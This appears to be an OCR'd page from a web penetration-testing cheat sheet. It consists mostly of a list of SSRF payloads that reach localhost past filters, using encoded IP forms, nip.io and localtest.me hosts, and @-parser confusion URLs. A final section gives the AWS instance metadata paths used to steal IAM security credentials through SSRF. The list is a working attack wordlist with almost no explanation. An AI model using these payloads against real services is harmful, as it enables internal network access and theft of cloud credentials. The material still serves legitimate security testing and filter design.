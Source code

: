 ```
%30
http://%30
http://0
127.1
%31%32%37%2e%31
http://%31%32%37%2e%31
%31%32%37%2e%30%2e%31
http://127.1
127.0.1
%31%32%37%2e%30%2e%31
http://%31%32%37%2e%30%2e%31
http://127.0.1
127.1.1.1
%31%32%37%2e%31%2e%31%2e%31
http://%31%32%37%2e%31%2e%31%2e%31
http://127.1.1.1
0x7f000001
%30%78%37%66%30%30%30%30%30%31
http://%30%78%37%66%30%30%30%30%30%31
http://0x7f000001
017700000001
%30%31%37%37%30%30%30%30%30%30%30%31
http://%30%31%37%37%30%30%30%30%30%30%30%31
http://017700000001
0177.00.00.01
%30%31%37%37%2e%30%30%2e%30%30%2e%30%31
http://%30%31%37%37%2e%30%30%2e%30%30%2e%30%31
http://0177.00.00.01
127.0.0.1.nip.io
%31%32%37%2e%30%2e%30%2e%31%2e%6e%69%70%2e%69%6f
http://%31%32%37%2e%30%2e%30%2e%31%2e%6e%69%70%2e%69%6f
http://127.0.0.1.nip.io
localtest.me
http://%6c%6f%63%61%6c%74%65%73%74%2e%6d%65
%6c%6f%63%61%6c%74%65%73%74%2e%6d%65
http://localtest.me
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
```
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/wordlists/ssrf_local_bypass.txt

### SSRF for metadata theft from AWS

-> target
```
http://169.254.169.254/latest/meta-data/iam/security-credentials/<iam-role>
http://169.254.169.254/latest/api/token 
```
